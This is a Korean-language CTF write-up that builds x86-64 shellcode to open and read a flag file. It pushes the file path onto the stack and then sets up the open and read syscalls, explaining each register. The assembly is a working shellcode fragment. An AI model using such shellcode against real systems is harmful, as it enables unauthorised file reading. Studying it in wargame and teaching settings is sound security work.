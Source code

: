 매우 감사하게도 8바이트씩 잘랐을 때 딱 떨어지도록 글자수를 맞춰주었다.(안그랬으면 /를 추가해서 바이트 길이를 맞춰줘야 했을 것이라 생각했는데 read함수로 읽어서 따로 선언한 buf에 저장하는 것이 아니라 상관없을 것 같다.)

그러면 마지막 줄부터 스택에 push를 하여 넣어주자(리틀 엔디언으로)

```bash
mov rax, 0x676e6f6f6f6f6f6f ;oooooong
push rax
mov rax, 0x6c5f73695f656d61 ;ame_is_l
push rax
mov rax, 0x6e5f67616c662f63 ;c/flag_n
push rax
mov rax, 0x697361625f6c6c65 ;ell_basi
push rax
mov rax,0x68732f656d6f682f ;/home/sh
push rax
mov rdi, rsp ; rdi에 문자열이 저장된 주소 저장
xor rsi, rsi ; O_RDONLY는 0이므로 rsi에 0 저장
xor rdx, rdx ; 파일을 읽을 때 mode는 의미를 갖지 않으므로 rdx도 0 설정
mov rax, 2 ; rax값은 2로 설정
syscall ; rax,rdi,rsi,rdx다 설정하였으므로 open 호출
```

```bash
#define        O_RDONLY        0        /* Open read-only.  */
#define        O_WRONLY        1        /* Open write-only.  */
#define        O_RDWR          2        /* Open read/write.  */
```

#잠깐 여기서 왜 push 0x676e6f6f6f6f6f와 같이 바로 넣지 않나요?

dword data exceed bounds 오류가 뜨기 때문입니다…

![dword data exceed bounds.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/8fe0a315-484c-482a-9ab2-68d84ce5eb10/dword_data_exceed_bounds.png)

사실 바로 넣어도 되는줄 알고 해봤는데 rax에 넣어서 8바이트로 명시해주지 않으면 8바이트가 아니라 dword, signed dword로 되는듯 함

## Read를 어셈블리어로 바꾸기

Open의 syscall 결과값(fd)는 rax에 저장되기 때문에 rdi(fd)값에 저장해준다.

rsi는 읽어온 문자열을 저장할 공간이므로 rsp(현재 스택포인터)에서 buf의 크기인 100만큼을 빼준만큼 확보해준다. 

rsi = rsp -0x100

rdx는 읽어 올 문자열의 크기이므로 0x100으로 설정해준다.

즉 다음과 같다.

```bash
mov rdi, rax ; rdi에 open의 결과값인 fd저장
mov rsi, rsp ; rsi에 rsp값 저장
sub rsi, 0x100 ; rsi에 0x100만큼 공간 확보
mov rdx, 0x100 ; rdx는 읽어들일 문자열의 크기 저장
xor rax, rax ; rax값을 0으로 설정
syscall ; Read실행
```
